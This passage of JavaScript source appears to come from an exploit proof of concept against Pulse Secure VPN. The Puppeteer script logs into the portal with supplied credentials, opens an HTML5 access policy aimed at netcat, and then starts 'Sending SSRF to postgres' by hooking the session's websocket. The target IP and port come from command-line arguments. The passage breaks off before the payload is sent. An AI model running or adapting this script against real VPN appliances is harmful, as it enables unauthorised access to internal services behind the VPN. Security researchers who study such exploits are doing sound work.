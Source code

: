 ```javascript
    console.log("[+] policy: " + policy)
    ip = process.argv[6]
    console.log("[+] ip: " + ip)
    port = process.argv[7]
    console.log("[+] port: " + port)
}

(async() => {
    const delay = ms => new Promise(resolve => setTimeout(resolve, ms))

    // Setup browser
    console.log("[+] Setup browser")
    const browser = await puppeteer.launch({
        headless: false,
        ignoreHTTPSErrors: true,
        defaultViewport: null,
        devtools: false
    })
    const page = (await browser.pages())[0]

    // await delay(3000)

    // Login user
    console.log("[+] Login user")
    await page.goto("https://my.pulse/dana-na/auth/url_default/welcome.cgi")
    await page.waitForSelector('#username');
    await page.type("#username", user_name)
    await page.type("#password", user_passord)
    await page.$eval('#realm_16', (el, realm) => {
        el.value = realm;
    }, realm);
    await page.click("#btnSubmit_6")

    try {
        await page.waitForSelector("#btnContinue", {
            timeout: 1000 // Continue if previous session established
        })
        await page.click("#btnContinue");
        console.log("[+] Previous session found, continuing")
    } catch (e) {
        console.log("[+] No previous session, continuing")
    }

    // Open Html5 access on netcat
    console.log("[+] Open Html5 access on netcat")
    await page.waitForSelector("#table_html5accline_2_0 > tbody > tr > td:nth-child(2) > a")
    linkHandlers = await page.$x("//a[contains(., '" + policy + "')]");
    if (linkHandlers.length > 0) {
        await linkHandlers[0].click();
    } else {
        console.log("[-] Policy link not found")
        process.exit(1)
    }

    // Sending SSRF to postgres
    console.log("[+] Sending SSRF to postgres")
    await page.waitForSelector("#content")
    await page.focus("#content")

    // Hooking the websocket
    console.log("[+] Hooking the websocket")

    // Hook the chrome console to node console to print browser logs in the shell
```